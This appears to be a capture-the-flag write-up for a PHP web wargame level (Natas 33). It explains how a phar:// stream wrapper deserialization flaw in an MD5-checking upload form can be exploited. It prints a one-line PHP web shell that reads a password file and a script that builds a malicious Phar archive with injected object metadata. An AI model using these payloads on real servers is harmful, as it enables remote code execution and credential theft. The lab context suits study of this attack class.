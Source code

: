 This one took me a while to figure out, but first let's analyse the code. The goal here is to upload a file that will be executed on the server if the **MD5** checksum matches the following value : **adeafbadbabec0dedabada55ba55d00d**.

Of course, even if **MD5** is vulnerable to collision, it would be useless to try to find a potential collision for `adeafbadbabec0dedabada55ba55d00d`. Even if it is theoretically possible, it could take years and your file would probably get bigger than the **4096 bytes** limit set in the code.

However, we do have control over 2 parameters, the *filename* and the file content, named *uploadedfile*. In the following code you can see that your filename is set on the client side with your **session_id** as default value :

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="4096" />
    <input type="hidden" name="filename" value="<? echo session_id(); ?>" />
        Upload Firmware Update:<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
</form>
```

After some research, I came across the following paper [It’s a PHP unserialization vulnerability Jim, but not as we know it](https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It%27s-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf) by Sam Thomas. Basically, he explains how to exploit the **phar://** stream wrapper and the **.phar** archive in PHP to unserialize data. 

What is interesting about Phar (PHP Archive) files is that these contain metadata in serialized format. If a file operation is now performed on an existing **Phar** file via the *phar://* stream wrapper, then its serialized meta data is unserialized. This means that an injected object in the metadata is loaded into the application’s scope.

Let's sum it up :

- We can upload any file type we want
- We have control over the filename
- *md5_file()* function can read *Phar* stream 

So, if we build a custom *Phar* archive with specific serialized data then, try to open it with the *phar://* stream wrapper, we could potentially get an execution.

I solved this one in 2 steps. First I uploaded a standard PHP file to read the password :

```php
<?php echo shell_exec('cat /etc/natas_webpass/natas34'); ?>
```

I intercepted the submit request to rename it with the name `pwn.php`. Then, I built a custom *Phar* archive with the following code :

```php
<?php
	class Executor {
		private $filename = "pwn.php"; 
        private $signature = True;
        private $init = false;
	}

	$phar = new Phar("test.phar");
	$phar->startBuffering();
	$phar->addFromString("test.txt", 'test');
	$phar->setStub("<?php __HALT_COMPILER(); ?>");
	$o = new Executor();
	$phar->setMetadata($o);
	$phar->stopBuffering();
?>
```

